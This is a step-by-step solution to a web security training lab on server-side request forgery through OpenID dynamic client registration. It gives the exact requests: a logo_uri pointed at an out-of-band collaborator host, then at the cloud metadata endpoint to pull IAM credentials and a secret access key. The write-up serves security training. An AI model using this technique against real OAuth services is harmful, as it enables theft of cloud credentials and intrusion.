





# SSRF via OpenID dynamic client registration

## Description

[This lab](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration) allows client applications to dynamically register themselves with the `OAuth` service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the `OAuth` service, which exposes a potential vector for SSRF. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter`. Browse to `https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.

```text
https://oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net/.well-known/openid-configuration
```



2. In Burp Repeater, create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. For example:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```

3. Send the request. 



You have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new `client_id`.

4. Using Burp, audit the OAuth flow and notice that the **Authorize** page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
5. From the Burp menu, open the Burp Collaborator client and click **Copy to clipboard** to copy a Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the `POST /reg` request that you created earlier. Add the `logo_uri` property and paste your Collaborator URL as its value. The final request should look something like this:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://ayc1v2jr1ayrplf516zakprhe8kz8pwe.oastify.com"
}
```

7. Send the request to register a new client application and copy the `client_id` from the response.

```text
"client_id":"RnZsZfMVpfPS3fvIwXoY6",
```

8. In Repeater, go to the `GET /client/CLIENT-ID/logo` request. Replace the `CLIENT-ID` in the path with the new one you just copied and send the request.



9. Go to the Burp Collaborator client dialog and check for any new interactions. 



There is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the `logo_uri` property to elicit requests from the OAuth server.
10. Go back to the `POST /reg` request in Repeater and replace the current `logo_uri` value with the target URL:

```text
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

11. Send this request and copy the new `client_id` from the response.

```text
"client_id":"lswpWbRUl4rUzN4GYG8js",
```

12. Go back to the `GET /client/CLIENT-ID/logo` request and replace the `client_id` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.



13. Use the **Submit solution** button to submit the access key and solve the lab.


## Exploitability

An attacker will need to log in; and then craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the `OAuth` provider's cloud environment.

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._
